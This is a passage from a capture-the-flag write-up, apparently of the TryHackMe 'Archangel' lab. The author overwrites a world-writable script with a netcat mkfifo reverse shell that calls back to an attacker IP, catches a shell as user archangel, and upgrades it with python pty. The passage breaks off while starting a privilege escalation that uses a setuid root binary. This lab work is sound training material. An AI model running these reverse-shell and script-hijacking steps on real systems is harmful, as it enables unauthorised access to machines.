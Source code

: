 Looking at the permissions, I find everyone has permission to write to this file

```
www-data@ubuntu:/opt$ ls -la helloworld.sh 
-rwxrwxrwx 1 archangel archangel 66 Nov 20 10:35 helloworld.sh
```

Since I can write to the file, I put in a reverse shell

```
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.8.75 1234 >/tmp/f" > helloworld.sh
```

After setting up a netcat listener and waiting for a few moments, I get a connect back as archangel

```
root@kali:~/tryhackme/archangle# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.8.75] from (UNKNOWN) [10.10.166.10] 40080
/bin/sh: 0: can't access tty; job control turned off

$ whoami
archangel
```

Again, I import python3 into the shell

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
archangel@ubuntu:~$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/tryhackme/archangle# stty raw -echo
root@kali:~/tryhackme/archangle# fg

archangel@ubuntu:~$
```

Now, I can read the 3rd flag


![flag3](/assets/archangel/flag3.jpg)


## Privilege Escalation to root


Under the secrets folder, I find a file named backup. Looking into this file, I find it is an ELF executable owned by root but can be executed by anyone

```
archangel@ubuntu:~/secret$ file backup 
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped

archangel@ubuntu:~/secret$ ls -la backup 
-rwsr-xr-x 1 root root 16904 Nov 18 16:40 backup
```
